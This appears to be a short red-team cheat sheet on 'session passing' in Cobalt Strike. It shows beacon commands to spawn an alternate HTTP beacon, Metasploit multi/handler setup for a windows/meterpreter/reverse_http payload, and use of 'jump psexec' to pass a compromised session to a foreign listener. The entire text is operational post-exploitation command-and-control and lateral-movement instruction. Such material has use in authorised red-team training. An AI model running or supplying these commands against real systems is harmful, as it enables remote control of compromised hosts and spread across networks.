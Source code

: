 # Session Passing

## CASE 1: Beacon Passing (Within Cobalt Strike - Create alternate HTTP beacon while keeping DNS as lifeline)

    beacon> spawn x64 http

## CASE 2: Foreign Listener (From CS to Metasploit - Staged Payload - only x86 payloads)

# Setup Metasploit listener

    attacker@ubuntu ~> sudo msfconsole -q
    msf6 > use exploit/multi/handler
    msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_http
    msf6 exploit(multi/handler) > set LHOST ens5
    msf6 exploit(multi/handler) > set LPORT 8080
    msf6 exploit(multi/handler) > run

# Setup a Foreign Listener in cobalt strike with above IP & port details

# Use Jump psexec to execute the beacon payload and pass the session

    beacon> jump psexec Foreign_listener
